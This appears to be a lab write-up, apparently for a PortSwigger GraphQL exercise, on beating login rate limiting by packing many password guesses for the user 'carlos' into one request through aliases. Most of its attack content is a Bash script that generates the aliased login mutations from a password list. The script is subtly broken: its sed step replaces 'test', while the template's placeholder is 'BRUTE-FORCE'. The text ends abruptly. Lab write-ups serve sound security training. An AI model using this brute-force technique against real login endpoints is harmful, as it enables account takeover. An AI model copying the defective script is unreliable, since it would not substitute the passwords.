


# Bypassing GraphQL brute force protections via aliases

In this lab, we are going to take advantage of the login mutation by performing a brute‑force attack using GraphQL aliases.

When we perform several login attempts, the account becomes blocked:

To bypass this restriction, we will use GraphQL aliases. First, we insert the variable’s content directly into the input:

This allows us to send multiple values by assigning a unique identifier to each of them:

Our goal is to generate as many aliases as the number of passwords in PortSwigger’s dictionary.
We achieve this using the following Bash script:

#!/bin/bash 
text='''
alias_x: login(input: {username: "carlos", password: "BRUTE-FORCE"}) {\n
    \ttoken\n
    \tsuccess\n
  }
'''

count=1
cat pass-bscp.txt | while read i; do 
  echo -e $text | sed "s/test/$i/" | sed "s/alias_x/alias_$count/"
  let count+=1
done

The output of this script will be 100 aliases, each with its own unique identifier and a different password value:

